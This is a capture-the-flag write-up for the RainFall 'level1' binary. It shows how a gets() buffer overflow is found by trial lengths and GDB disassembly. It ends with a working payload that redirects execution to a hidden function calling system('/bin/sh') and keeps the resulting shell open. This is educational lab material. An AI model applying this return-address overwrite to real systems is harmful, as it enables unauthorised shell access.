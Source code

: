 `gets` is being called and gets can be exploit via buffer overflow.

The program will crash with a big string.

By tring varius lenght if found :

```
level1@RainFall:~$ python -c "print('a' * 75)" | ./level1
level1@RainFall:~$ python -c "print('a' * 76)" | ./level1
Illegal instruction (core dumped)
level1@RainFall:~$ python -c "print('a' * 77)" | ./level1
Segmentation fault (core dumped)
```

Illegal instruction is the proof there's an overflow, so we will attack with a buffer overflow of 76.

Knowing why it's 76 can be good, it guess the buffer is 64 bytes long (char buffer[64]) and it took 12 more bytes to reach the return adresse of gets

GDB dissas
```
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp    
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax     
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
(gdb) disass run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp     
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
(gdb) x/s 0x8048584
0x8048584:       "/bin/sh"
(gdb) x/s 0x8048570
0x8048570:       "Good... Wait what?\n"
```

run is a function but is not called, no big deal we got everything !

"/bin/sh" will be called with system, that's exactly what we want and the address that starts this is **0x08048444**.

so by overflowing the buffer and calling the right address like this (adress is reversed because it's like this cpu reads adresses)

https://owasp.org/www-community/attacks/Buffer_overflow_attack

`python -c "print('a' * 76 + '\x44\x84\x04\x08')" | ./level1`

We did get the message "Good... Wait what?\n" but also got segfault right after. So we need to block the command

`(python -c "print('a' * 76 + '\x44\x84\x04\x08')"; cat) | ./level1`

`cat` will block the le shell `system` just gave us, in parenthesis so the pipe is for all the command